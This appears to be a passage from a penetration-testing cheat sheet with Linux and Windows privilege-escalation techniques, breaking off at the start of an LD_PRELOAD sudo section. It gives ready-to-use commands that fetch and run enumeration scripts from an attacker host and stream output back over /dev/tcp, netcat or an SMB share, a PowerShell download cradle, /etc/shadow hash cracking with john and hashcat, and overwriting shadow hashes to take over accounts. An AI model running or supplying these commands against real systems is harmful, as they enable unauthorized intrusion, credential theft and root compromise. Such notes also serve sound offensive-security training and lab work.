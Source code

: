 transfer and execute the enum tool:

<code>curl http://[attackerip:port]/linenum.sh | bash -i > /dev/tcp/[attackerip]/8888</code> or <code>curl http://[attackerip:port]/linenum.sh | bash -i | nc [attackerip] [port]</code>

On Windows, run an smb server to listen for the inbound output from the tool

<code> impacket-smbserver smb ~/smb </code>

<code>PS > IEX (new-object net.webclient).downloadstring('http://[attackerip:port]/enum.ps1') > \\[attackerip]\smb\output.txt</code>
 
### /etc/shadow - cracking and overwriting for privesc

#### copy hash from the second position (: delimited) and crack it:

<code>root:$6$5l70Gupv$xBTxhCSexudn5jJ9hampIfTK0KIR3nqK1K1Rxye.OA5obtKArO7jgftjJtVSdp31MPxItEPmOuWhbgBvp0wqn.:16737:0:99999:7:::</code> you want the <code>fred:$6$5l70Gupv$xBTxhCSexudn5jJ9hampIfTK0KIR3nqK1K1Rxye.OA5obtKArO7jgftjJtVSdp31MPxItEPmOuWhbgBvp0wqn.:16737:0:99999:7:::</code> part

use john to crack it: 
<code> john --format=sha512crypt --wordlist=pathtowordlist hash.txt </code>

to crack with hashcat... you need to remove the salt from the hash first:

<code>$6$5l70Gupv$</code> is the salt, so the remaining part of the hash you want is 
<code>xBTxhCSexudn5jJ9hampIfTK0KIR3nqK1K1Rxye.OA5obtKArO7jgftjJtVSdp31MPxItEPmOuWhbgBvp0wqn.</code>
 
<code>hashcat -m 1800 hashfile /usr/share/wordlists/rockyou.txt --force</code>

#### overwriting

If you can write to /etc/shadow in some way, you can edit the pw hash for any account and the login with it

~~~
mkpasswd -m sha-512 password
$6$Pp.gr7cKYj679e87$U8OdJicmXGASzEhI.QGHNBMg2/JIgA8j8bSGB2pl7nE4ZFLcvjT58qhbAZq42mB0mtO2OztIFTuQaKSeqQO7h1
~~~

or

~~~
openssl passwd newpassword
$1$NT0O9vV2$CTfKZvh0m9MzX6Cft.FxC1
~~~
copy the new password hash to the second field of any user in the shadow file and login with that password you've just created

### sudo and LD_PRELOAD privesc

If ld_preload and env_keep are present when running `sudo -l` then you can create a binary that will run before (preload) any of the listed sudo binaries and it will run as root. 

~~~
user@debian:-$ sudo -l 
Matching Defaults entries for user on this host: 
	env_reset, LD_PRELOAD, env_keep+=LD_LIBRARY_PATH 

User user may run the following commands on this host: 
	(root) NOPASSWD: /usr/bin/find
 ~~~
 